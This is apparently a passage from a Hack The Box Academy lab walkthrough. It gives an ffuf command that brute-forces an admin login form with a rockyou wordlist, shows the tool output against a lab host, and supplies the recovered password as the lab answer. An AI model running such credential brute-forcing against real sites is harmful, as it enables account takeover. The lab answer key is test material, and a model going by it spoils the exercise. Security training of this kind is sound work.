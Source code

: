 Therefore, students need to use `ffuf` to brute-force the password of the `admin` user, making use of the modified `rockyou.txt` wordlist:

Code: shell

```shell
ffuf -w rockyouTrimmed.txt -u http://STMIP:STMPO/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password." -t 60
```

```
┌─[eu-academy-5]─[10.10.14.81]─[htb-ac-413848@htb-2rcbi2srbd]─[~]
└──╼ [★]$ ffuf -w rockyouTrimmed.txt -u http://94.237.58.102:49349/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username or password." -t 60

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.58.102:49349/index.php
 :: Wordlist         : FUZZ: /home/htb-ac-413848/rockyouTrimmed.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 60
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid username or password.
________________________________________________

{hidden}           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 92ms]
```

Answer: `Ramirez120992`

# Brute-Forcing Password Reset Tokens

## Question 1

### "On what do password recovery functionalities provided by web applications typically rely to allow users to recover their accounts?"
